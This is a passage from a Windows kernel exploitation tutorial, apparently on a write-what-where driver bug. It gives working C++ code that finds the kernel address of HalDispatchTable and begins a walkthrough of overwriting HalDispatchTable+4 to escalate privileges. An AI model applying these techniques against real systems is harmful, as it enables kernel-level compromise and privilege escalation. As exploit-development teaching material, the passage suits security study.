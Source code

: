 `HalDispatchTable` exists in the kernel executive (ntoskrnl or another instance depending on the OS/processor). To get its address we need to:
1. Get kernel's base address in kernel using `NtQuerySystemInformation`.
2. Load kernel in usermode and get the offset to `HalDispatchTable`.
3. Add the offset to kernel's base address.

```cpp
SYSTEM_MODULE krnlInfo = *getNtoskrnlInfo();
// Get kernel base address in kernelspace
ULONG addr_ntoskrnl = (ULONG)krnlInfo.ImageBaseAddress;
printf("[+] Found address to ntoskrnl.exe at 0x%x.\n", addr_ntoskrnl);

// Load kernel in use in userspace to get the offset to HalDispatchTable
// NOTE: DO NOT HARDCODE KERNEL MODULE NAME
printf("[+] Kernel in use: %s.\n", krnlInfo.Name);
char* krnl_name = strrchr((char*)krnlInfo.Name, '\\') + 1;
HMODULE user_ntoskrnl = LoadLibraryEx(krnl_name, NULL,DONT_RESOLVE_DLL_REFERENCES);
if(user_ntoskrnl == NULL)
{
	printf("[-] Failed to load kernel image.\n");
	exit(-1);
}

printf("[+] Loaded kernel in usermode using LoadLibraryEx: 0x%x.\n",user_ntoskrnl);
ULONG user_HalDispatchTable = (ULONG)GetProcAddress(user_ntoskrnl,"HalDispatchTable");
if(user_HalDispatchTable == NULL)
{
	printf("[-] Failed to locate HalDispatchTable.\n");
	exit(-1);
}

printf("[+] Found HalDispatchTable in usermode: 0x%x.\n",user_HalDispatchTable);

// Calculate address of HalDispatchTable in kernelspace
ULONG addr_HalDispatchTable = addr_ntoskrnl - (ULONG)user_ntoskrnl +user_HalDispatchTable;
printf("[+] Found address to HalDispatchTable at 0x%x.\n",addr_HalDispatchTable);
```

---

### 3. Overwriting `HalDispatchTable+4`

To do this, we just need to submit a buffer that gets cast to `WRITE_WHAT_WHERE`. Basically two pointers, one for `What` and another for `Where`. 

```cpp
typedef struct _WRITE_WHAT_WHERE {
        PULONG_PTR What;
        PULONG_PTR Where;
} WRITE_WHAT_WHERE, *PWRITE_WHAT_WHERE;
```

Notice that these are pointers. 
